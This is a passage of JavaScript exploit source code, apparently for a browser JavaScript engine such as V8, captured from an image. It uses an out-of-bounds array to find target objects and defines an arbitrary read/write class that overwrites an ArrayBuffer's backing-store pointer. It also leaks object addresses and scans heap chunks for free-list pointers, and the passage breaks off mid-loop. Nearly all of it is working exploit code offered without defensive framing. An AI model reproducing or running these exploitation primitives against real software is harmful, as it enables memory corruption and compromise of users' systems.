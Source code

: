 ```
        console.log("[*]find target objecets in oobArray number ["+i+"]");
        oobArray[i]=ct.i2f(0x123500000000);
        break;
    }
}

for(let i=0;i&lt;100;i++)
{    
    if(objs[i].a===0x1235){
           console.log("[*]find target objs number ["+i+"]");
        obj_index=i;
        break;
    }    
}

class ArbitraryRW
{
    leak_obj(obj){
        objs[obj_index].a = obj;

        return ct.f2i(oobArray[obj_offset]) - 1;
    }
    read(addr){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        //console.log(hex(addr));
        //console.log(hex(ct.f2i(oobArray[backing_store])));
        //console.log(hex(ct.f2i(oobArray[kbitfield])));
        let tmp=new Float64Array(arrays[buf_index],0,0x10);
        return ct.f2i(tmp[0]);
    }
    write(addr,value){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        this.f64=new Float64Array(arrays[buf_index],0,0x10);
        this.f64[0]=ct.i2f(value);
    }
    leak(){
        return ct.f2i(oobArray[kbitfield]);
    }
}

let wr=new ArbitraryRW();

let heap=wr.leak()-0x10;
console.log("[*]leak backing store address="+hex(heap));

chunk=heap;
let size=wr.read(chunk+8);
size=parseInt(size/8)*8;
let finded=0;

for(let i=0;i&lt;0x5000;i++)
{
    //let leak=wr.read(heap);
    prev_size=wr.read(chunk);
    size=wr.read(chunk+8);

    if(size !== 0 &amp;&amp; size % 2 === 0 &amp;&amp; prev_size &lt;= 0x3f0)
    {
    let tmp_ptr=chunk-prev_size;
    fd=wr.read(tmp_ptr+0x10);
    bk=wr.read(tmp_ptr+0x18);
```